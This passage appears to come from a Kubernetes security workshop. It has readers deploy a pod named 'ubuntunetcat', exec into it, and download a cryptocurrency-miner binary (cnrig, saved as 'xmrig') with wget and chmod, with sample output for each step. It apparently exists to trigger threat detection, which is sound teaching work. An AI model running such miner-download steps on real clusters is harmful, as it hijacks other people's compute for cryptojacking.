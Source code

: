 Run the following command to deploy the pod.

```bash
kubectl apply -f ubuntunetcat.yaml
```

Run the following command to check if the pod is running.

```bash
kubectl get pod
```

::::expand{header="Check Output"}
```bash
WSParticipantRole:~/environment $ kubectl get pod
NAME                                            READY   STATUS    RESTARTS   AGE
ubuntunetcat                                    1/1     Running   0          32s
```
::::

Run the following command to exec into the above pod.

```bash
kubectl exec -it ubuntunetcat -- /bin/bash
```
Then execute the following commands inside the pod.

```bash
wget -O xmrig https://github.com/cnrig/cnrig/releases/download/v0.1.5-release/cnrig-0.1.5-linux-x86_64
chmod +x xmrig
```

::::expand{header="Check Output"}
```bash
--2023-07-03 11:51:40--  https://github.com/cnrig/cnrig/releases/download/v0.1.5-release/cnrig-0.1.5-linux-x86_64
Resolving github.com (github.com)... 192.30.255.112
Connecting to github.com (github.com)|192.30.255.112|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/128983339/a48be568-499e-11e8-824c-7aa62378d6b3?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20230703%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20230703T115140Z&X-Amz-Expires=300&X-Amz-Signature=297111c3371aa55b97ee80fc2b914f5cf92aa93fa82e8092b7d87741086a128d&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=128983339&response-content-disposition=attachment%3B%20filename%3Dcnrig-0.1.5-linux-x86_64&response-content-type=application%2Foctet-stream [following]
--2023-07-03 11:51:40--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/128983339/a48be568-499e-11e8-824c-7aa62378d6b3?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20230703%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20230703T115140Z&X-Amz-Expires=300&X-Amz-Signature=297111c3371aa55b97ee80fc2b914f5cf92aa93fa82e8092b7d87741086a128d&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=128983339&response-content-disposition=attachment%3B%20filename%3Dcnrig-0.1.5-linux-x86_64&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.110.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2731128 (2.6M) [application/octet-stream]
Saving to: 'xmrig'

xmrig                                100%[=====================================================================>]   2.60M  --.-KB/s    in 0.07s   

2023-07-03 11:51:40 (38.7 MB/s) - 'xmrig' saved [2731128/2731128]

```
::::

